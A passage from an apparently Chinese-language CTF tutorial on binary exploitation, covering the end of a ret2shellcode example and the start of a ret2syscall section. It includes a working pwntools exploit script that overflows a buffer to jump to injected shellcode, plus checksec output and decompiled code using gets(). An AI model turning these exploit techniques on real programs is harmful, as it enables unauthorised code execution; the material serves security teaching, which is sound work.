 那麼這次我們就控制程序執行 shellcode，也就是讀入 shellcode，然後控制程序執行 bss 段處的 shellcode。其中，相應的偏移計算類似於 ret2text 中的例子。

最後的 payload 如下：

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

sh.sendline(shellcode.ljust(112, b'A') + p32(buf2_addr))
sh.interactive()
```

### 題目

- sniperoj-pwn100-shellcode-x86-64

## ret2syscall

### 原理

ret2syscall，即控制程序執行系統調用，獲取 shell。

### 例子

這裏我們繼續以 bamboofox 中的 ret2syscall 爲例。  

> 點擊下載: [ret2syscall](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/linux/user-mode/stackoverflow/ret2syscall/bamboofox-ret2syscall/rop)

首先檢測程序開啓的保護：

```shell
➜  ret2syscall checksec rop
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，源程序爲 32 位，開啓了 NX 保護。接下來利用 IDA 進行反編譯：

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```
